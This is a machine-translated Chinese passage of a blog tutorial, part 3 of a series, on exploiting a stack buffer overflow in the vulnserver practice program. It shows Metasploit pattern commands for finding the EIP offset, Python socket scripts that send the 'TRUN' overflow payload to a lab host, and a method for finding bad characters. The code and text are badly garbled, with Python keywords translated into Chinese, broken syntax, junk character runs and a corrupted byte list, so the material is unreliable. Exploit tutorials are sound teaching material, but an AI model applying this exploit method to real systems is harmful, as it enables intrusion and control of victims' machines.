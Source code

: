 # 缓冲区溢出教程(第 3 部分)

> 原文：<https://blog.devgenius.io/buffer-overflow-tutorial-part3-98ab394073e3?source=collection_archive---------3----------------------->

![](img/9ecf2131d8ac4251c66c30c182e90282.png)

安加德·辛格·www.officialhacker.com

# 5-寻找偏移

在上一节中，我们使用一个 fuzzing 脚本来查找它崩溃的大概字节数。现在，我们需要找到*“EIP”*被覆盖的偏移量，因为这是我们从这一点开始想要控制的。为此，我们需要使用 Metasploit 工具生成一个独特的模式并发送它，而不是发送 *"A"* 字符。然后根据输出，我们可以使用另一个 Metasploit 模块找出偏移量。要生成唯一的模式，请使用以下命令:*(****root @ kali****:~ #/usr/share/metasploit-framework/tools/exploit/pattern _ create . r b-l 2200)。*这里我们将创建一个长度为 2200 字节的随机模式。复制模式并在模糊脚本中使用它们。

![](img/fd81a997048dda4960bf8b6ce3fab183.png)

在任意编辑工具中打开 *"Fuzzing1.py"* 文件，用偏移图形替换 *"buffer = "A" * 100"* 部分，然后保存。脚本应该是这样的:

— — — — — — — — — — — — — — — — — — — — — — — — — —

*#！/usr/bin/python*

*导入系统，插座*

)( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )( )(

*try:*

S = socket.socket(socket)AF_INET,socket。SOCK_STREAM(T5)

*s.connect(('10.10.10.4',9999))*

*s.send(('TRUN /。:/' + offset()*

*s.close()*

*except:*

*print "Error connecting to server"* 错误连接到服务器

*sys.exit()*

【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】】【解析】【解析】【解析】【解析】】【解析】【解析】【解析】【解析】】【解析】【解析】】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】【解析】

![](img/506b6ea065f1d05f788abae8035cb2be.png)

在我们运行 python 脚本之前,我们必须再次设置环境。Once everything is running correctly, execute the script。

***:*** ****【root@kali】**:~#。/Fuzzing1.py)。(T31)****

*执行完 python 脚本后，*“vulnserver”*程序会崩溃，显示被覆盖的*“EIP”*(386 f 4337)的值。把它记在某个地方，因为我们将在下一步中用到它来求偏移量。*

*![](img/46bcb4bc6b31df3ca5e5457114ce9521.png)*

*现在，我们将使用另一个 Metasploit 工具来查找我们的偏移量的精确匹配。为此，使用以下具有相同字节长度的命令，并指定我们找到的*“EIP”*值。*

****Ex:****(****root @ kali****:~ #/usr/share/metasploit-framework/tools/exploit/pattern _ offset . r b-l 2200-q 386 f 4337)。**

*![](img/f157f318f3cd17b670784e77bd007e44.png)*

*正如您在上面的截图中看到的，我们设法找到了 2003 字节的偏移量的精确匹配。现在是时候改写*“EIP”了**

# *6-覆盖 EIP*

*在小节中，我们将尝试覆盖*【EIP】*的部分记忆。在前面的例子中，我们发现我们的偏移量正好是 2003 字节。这意味着在我们到达*“EIP”之前有 2003 个字节*“EIP”本身是 4 个字节长的内存部分，在这里我们将尝试覆盖它们。为此，我们需要修改我们的 python 脚本，发送 2003 个*“A”*字符到达*“EIP”*，然后添加 4 个*“B”*字符来覆盖它。保存更改并运行脚本。*

*— — — — — — — — — — — — — — — — — — — — — — — — — —*

**#！/usr/bin/python**

**导入系统，插座**

**shellcode = " A " * 2003+" B " * 4**

**试试:**

**s = socket.socket(socket。AF_INET，socket。**

**s.connect(('10.10.10.4 '，9999))**

**s.send(('TRUN /。:/' + shellcode))**

**s.close()**

**除:**

**打印“连接到服务器时出错”**

**sys.exit()**

**—————**

*![](img/9076f454f00bac79dcec1876438e27f2.png)*

*一旦执行脚本，*“vunserver”*就会崩溃，免疫调试器会因为访问冲突而停止。当您检查调试器的输出时，您会看到 *"EBP"* 将被全部的*" A "*(41414141)填充，而 *"EIP"* 将被全部的*" B "*(42424242)填充。*

*![](img/6bc0f8c7a3dd91c291a5569cf9ac6319.png)*

*这意味着我们现在可以控制内存的*【EIP】*部分，而不是发送一堆*【A】*或*【B】*字符，我们可以发送一个恶意的外壳代码来感染我们的目标计算机，并获得外壳访问权限。*

# *7 —查找不良字符*

*当生成外壳代码时，我们需要知道什么字符对外壳代码是坏的或好的。我们可以通过在我们的程序中运行所有的十六进制字符来检查这一点，看看它们是否有任何不同的显示。在测试它之前，首先，我们需要找到一个*“坏字符”的列表。*打开你最喜欢的浏览器，搜索*“寻找蒙娜丽莎”*点击*“用免疫调试器和 Mona.py 查找不良角色”链接**

*![](img/ae3bf9f7d524e3a2aa6e9b8e2d7eb4c0.png)*

*这个特殊的网站已经创建了一个包含所有*“坏字符”*的变量，我们可以在 python 脚本中使用它。*

*![](img/771803ee998d8ac74743f76c5ab037af.png)*

*用*【坏字符】*复制变量，粘贴到我们之前用的 python 脚本中。默认情况下，空字节 *"\x00"* 字符起作用，因此我们可以立即将其从变量中移除。建议将 *"bad chars"* 变量放在导致崩溃的字符之后。如果我们以*“坏字符”*开始我们的攻击字符串，我们可能根本不会崩溃。保存脚本，并在从免疫调试器进行监控的同时，针对*“vulnserver”*运行该脚本。*

*![](img/5c5c353d2272894777175f5f4639ccfd.png)*

*因此，基本上我们的 python 脚本将逐个运行下面列出的每个字符，我们在这里的工作是检查十六进制转储并记录任何放错位置的字符。*

**(\ x01 \ x02 \ x03 \ x04 \ x05 \ x06 \ x07 \ x08 \ x09 \ x0a \ x0b \ x0c \ x0d \ x0e \ x0f \ X10 \ X11 \ x12 \ x13 \ x14 \ x15 \ x16 \ x17 \ x18 \ x19 \ x1a \ x1b \ x1c \ x1d \ x1e \ x1f \ x20 \ x21 \ x22 \ x23 \ x24 \ x25 \ x26 \ x27 \ x28 \ x18 \ x18**

*要检查 hex 转储，在崩溃发生后，右击*“ESP”、*，并从下拉菜单中选择*“跟随转储”它将转储并显示我们用 python 脚本发送的所有十六进制字符。**

*![](img/bb7366deb209bf056e5fb2d6a5f05ae6.png)*

*现在我们在堆栈上看到一个更长的*“bad chars”*字符串。走一条简单的路线，低头检查是否有*【xff】*字符，并期望没有其他腐败，这绝非易事。在这个例子中，每个损坏的字节都终止了*“坏字符”*字符串，但情况并非总是如此。有时当你试图建立新的漏洞时，你会遇到单个字符损坏的情况，但是剩余的 *"bad chars"* 字符串可以有效地打印出来。在这种情况下，仔细查看堆栈上的字节，逐个查看 *"bad chars"* 字符串，这是检查不再有坏字符的最佳方式。不幸的是，这是一个非常繁琐的过程，而且很容易出错。*

*![](img/800158cca4f8b01eeb2f5929eadd7569.png)*

*[缓冲区溢出教程(第一部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part1-efc6b9f3e4ee)*

*[缓冲区溢出教程(第二部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part2-c21c6de5c11c)*

*[缓冲区溢出教程(第三部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part3-98ab394073e3)*

*[缓冲区溢出教程(第四部分)](https://medium.com/dev-genius/buffer-overflow-tutorial-part4-1e80e90a2f03)*